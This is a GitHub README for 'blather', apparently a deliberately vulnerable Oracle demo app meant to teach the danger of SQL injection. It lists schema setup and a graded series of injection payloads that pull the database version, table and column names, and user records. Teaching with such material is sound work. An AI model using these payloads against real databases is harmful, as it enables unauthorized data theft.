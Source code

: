 [![CircleCI](https://circleci.com/gh/richardjwild/blather/tree/master.svg?style=shield&circle-token=761a13c0a67f184295191d2c4b50c5629645edae)](https://circleci.com/gh/richardjwild/blather/tree/master)

This is a version of the application that connects to an Oracle database. It is intended to illustrate the danger of SQL injection attacks.

The application requires the following tables to be created in a schema called BLATHER (password 'blather'):

```
CREATE TABLE "BLATHER"."MESSAGES" (
"USER_NAME" VARCHAR2(2000 BYTE), 
"TEXT" VARCHAR2(2000 BYTE), 
"timestamp" TIMESTAMP (6))
	
CREATE TABLE "BLATHER"."FOLLOWINGS" (	
"FOLLOWER_NAME" VARCHAR2(2000 BYTE), 
"FOLLOWING_NAME" VARCHAR2(2000 BYTE))

CREATE TABLE "BLATHER"."USERS" (	
"NAME" VARCHAR2(2000 BYTE))
```

The application is vulnerable to the following attacks (not necessarily the only ones) which gradually elicit information about the database, its schema, and the data contained therein:

```
rich -> ') --
rich2 -> ',null) --
rich2 -> ',1) --
rich2 -> ',SYSDATE) --
rich2 -> ' || (SELECT 'foo' FROM DUAL), SYSDATE) --
rich2 -> ' || (SELECT BANNER FROM V$VERSION WHERE ROWNUM=1), SYSDATE) --
rich2 -> ' || (SELECT COUNT (*) FROM USER_TABLES), SYSDATE) --
rich2 -> ' || (SELECT TABLE_NAME FROM (SELECT TABLE_NAME, ROWNUM RN FROM USER_TABLES) WHERE RN = 1), SYSDATE) --
rich2 -> ' || (SELECT COUNT(*) FROM USER_TAB_COLUMNS WHERE TABLE_NAME='USERS'), SYSDATE) --
rich2 -> ' || (SELECT COLUMN_NAME FROM USER_TAB_COLUMNS WHERE TABLE_NAME='USERS' AND ROWNUM=1), SYSDATE) --
rich2 -> ' || (SELECT COUNT(*) FROM USERS), SYSDATE) --
rich2 -> ' || (SELECT NAME FROM (SELECT NAME, ROWNUM RN FROM USERS) WHERE RN=1), SYSDATE) --
```
